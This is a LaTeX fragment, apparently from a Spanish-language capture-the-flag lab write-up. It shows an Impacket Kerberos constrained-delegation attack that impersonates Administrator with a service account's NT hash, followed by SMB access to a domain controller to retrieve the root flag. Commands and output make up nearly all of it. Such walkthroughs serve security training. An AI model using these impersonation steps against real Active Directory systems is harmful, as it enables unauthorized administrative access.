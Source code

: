 \documentclass[a4paper]{article}
\begin{document}
        \begin{lstlisting}[language=Bash, caption=Acceso como administrador]
$ getST.py -spn WWW/dc.template.htb -impersonate Administrator template.htb/svc_int 
-hashes :ee6ba16bad56e4fd9cc2a4156710cd2d

Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

$ export 'KRB5CCNAME=Administrator.ccache'

$ impacket-smbclient Administrator@dc.template.htb -k -no-pass 
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
Users
# use Users
# pwd
\
# ls
drw-rw-rw-          0  Mon Apr 19 08:20:26 2021 .
drw-rw-rw-          0  Mon Apr 19 08:20:26 2021 ..
drw-rw-rw-          0  Mon Apr 19 07:18:39 2021 Administrator
drw-rw-rw-          0  Mon Apr 19 10:16:30 2021 All Users
drw-rw-rw-          0  Mon Apr 19 09:17:40 2021 Default
drw-rw-rw-          0  Mon Apr 19 10:16:30 2021 Default User
-rw-rw-rw-        174  Mon Apr 19 10:15:17 2021 desktop.ini
drw-rw-rw-          0  Mon Apr 19 07:18:39 2021 Public
drw-rw-rw-          0  Mon Apr 19 08:20:26 2021 Ted.Graves
drw-rw-rw-          0  Mon Apr 19 07:51:46 2021 Tiffany.Molina
# cd Administrator
# cd Desktop
# ls
drw-rw-rw-          0  Mon Apr 19 07:51:57 2021 .
drw-rw-rw-          0  Mon Apr 19 07:51:57 2021 ..
-rw-rw-rw-        282  Mon Apr 19 07:40:10 2021 desktop.ini
-rw-rw-rw-         34  Tue Jun  7 08:19:54 2022 root.txt
# get root.txt
# exit\end{lstlisting}
                                                                                                                                                                       
        \begin{lstlisting}[language=Bash, caption=Flag root.txt]
$ cat root.txt  \end{lstlisting} 
\end{document}
